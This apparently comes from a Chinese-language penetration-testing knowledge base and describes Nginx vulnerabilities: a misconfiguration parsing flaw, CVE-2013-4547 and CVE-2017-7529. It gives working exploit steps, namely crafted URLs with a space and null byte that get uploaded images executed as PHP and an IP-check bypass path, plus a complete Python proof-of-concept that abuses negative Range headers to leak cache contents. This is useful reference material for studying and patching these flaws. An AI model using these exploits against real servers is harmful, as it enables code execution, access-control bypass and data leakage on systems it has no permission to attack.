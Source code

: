 ```yaml
---
title: Nginx
---
```


## 应用简介
Nginx 是一个高性能的HTTP和反向代理web服务器
## [配置错误]-解析漏洞

**漏洞概述**

该漏洞与Nginx、php版本无关，属于用户配置不当造成的解析漏洞

**漏洞利用**

增加`/.php`后缀，被解析成PHP文件

```
http://your-ip/uploadfiles/123.png/.php
```

配置错误引起的漏洞还有CRLF注入、目录穿越、add_header被覆盖绕过CSP

## [CVE-2013-4547]-文件名逻辑漏洞（RCE）

**漏洞概述**

```http
#影响版本
0.8.41 ~ 1.4.3
1.5.0 ~ `1.5.7`
```

因nginx错误地解析了请求的URI，错误地获取到用户请求的文件名，导致出现权限绕过、代码执行的连带影响

我们可以请求如下URI：`/test[0x20]/../admin/index.php`，这个URI不会匹配上location后面的/admin/，也就绕过了其中的IP验证；但最后请求的是`/test[0x20]/../admin/index.php`文件，也就是/admin/index.php，成功访问到后台。（这个前提是需要有一个目录叫test：这是Linux系统的特点，如果有一个不存在的目录，则即使跳转到上一层，也会爆文件不存在的错误，Windows下没有这个限制）

**漏洞利用**

1、上传一个`1.gif` ，注意后面添加一个空格

访问`http://your-ip:8080/uploadfiles/1.gif[0x20][0x00].php`

即可发现PHP已被解析

2、上传一个图片test2.jpg空格，注意后面添加一个空格

上传的文件找不到，因为浏览器自动将空格编码为%20，服务器中找不到名为test2.jpg%20的文件
接下来，我们想要上传的jpg文件作为php解析，就需要利用未编码的空格和截止符（\0）进行构造

```
http://ip:8080/uploadfiles/test2.jpgAAAphp
```

使用burpsuite将AAA分别更改为20（空格）、00（截止符\0）和2e(分隔符号.)

这样我们发送的请求就变为：

```
http://you-ip:8080/uploadfiles/test2.jpg[0x20][0x00].php
```

## [CVE-2017-7529]-越界读取缓存漏洞

**漏洞概述**

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。

缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。

如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。

而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。

如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

**漏洞利用**

可以使用该`POC`进行如下测试：`python3 poc.py [url]`

如果使用该POC读取的内容有误，请调整poc.py中的偏移地址（605）

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]

file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
print(r.text)
```